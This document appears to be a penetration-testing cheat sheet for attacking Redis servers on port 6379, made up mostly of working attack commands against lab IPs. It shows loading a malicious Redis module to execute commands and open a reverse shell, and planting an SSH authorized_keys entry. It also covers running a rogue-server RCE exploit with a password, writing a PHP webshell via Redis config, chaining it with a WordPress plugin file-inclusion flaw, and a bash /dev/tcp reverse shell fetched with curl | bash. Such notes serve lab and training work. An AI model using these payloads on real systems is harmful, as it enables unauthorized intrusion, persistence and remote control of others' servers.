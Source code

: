 # (6379) Redis

<details>

<summary>Plaintext Password file Location</summary>

```bash
/etc/redis/redis.conf
```

</details>

<details>

<summary>Redis Module Rev Shell</summary>

[https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#load-redis-module)

### Creating module.so

```bash
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git 
cd RedisModules-ExecuteCommand 
make 
```

### Loading module.so to Victim

```bash
ftp 192.168.160.93
cd pub
bin
put module.so
```

### Redis Server Module Rev Shell

* FTP default directory root: `/var/ftp`

```bash
redis-cli -h 192.168.160.93
module load /var/ftp/pub/module.so
module list
# 1) "name"
# 2) "system"
# 3) "ver"
# 4) (integer) 1
system.exec "whoami"
# "pablo\n"

# Rev Shell
system.rev 192.168.45.5 80

# OR SSH authorized login
system.exec "mkdir /home/pablo/.ssh"
system.exec 'echo "<id_rsa.pub>" > /home/pablo/.ssh/authorized_keys'
```

</details>

<details>

<summary>Redis RCE &#x3C;= 5.0.5</summary>

[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```bash
python3 redis-rogue-server.py --rhost 192.168.160.166 --lhost 192.168.45.5 --passwd="Ready4Redis?" 
```

* Can try changing the lport if firewall blocking

</details>

<details>

<summary>Webshell using Redis</summary>

```bash
config set dir /var/www/html
config set dbfilename test.php
set test "<?php system('id'); ?>"
save
```

### Alternative if facing "(error) ERR"

#### On Redis:

```bash
config set dir /opt/redis-files
config set dbfilename test.php
set test "<?php system('id'); ?>"
save
```

#### On Kali:

<pre class="language-bash"><code class="lang-bash">curl http://192.168.120.85/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php -o test.php
<strong>
</strong><strong>strings test.php      
</strong>#REDIS0009
#        redis-ver
#5.0.14
#redis-bits
#ctime
#used-mem
#aof-preamble
#test
#uid=1000(alice) gid=1000(alice) groups=1000(alice)
# {"success":true,"data":{"output":[]}}
</code></pre>

</details>

<details>

<summary>RCE using Redis</summary>

#### Shell.sh

```bash
#!/bin/bash

/bin/bash -i >& /dev/tcp/192.168.118.14/9002 0>&1
```

#### On Victim:

```bash
config set dir /opt/redis-files
config set dbfilename test.php
set test "<?php system('curl 192.168.118.14/shell.sh | bash'); ?>"
```

Using LFI (for Wordpress):

```bash
curl http://192.168.120.85/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/opt/redis-files/test.php
```

```bash
connect to [192.168.118.14] from (UNKNOWN) [192.168.120.85] 45752
bash: cannot set terminal process group (551): Inappropriate ioctl for device
bash: no job control in this shell
<ite-editor/editor/extensions/pagebuilder/includes$ whoami
whoami
alice
```

</details>

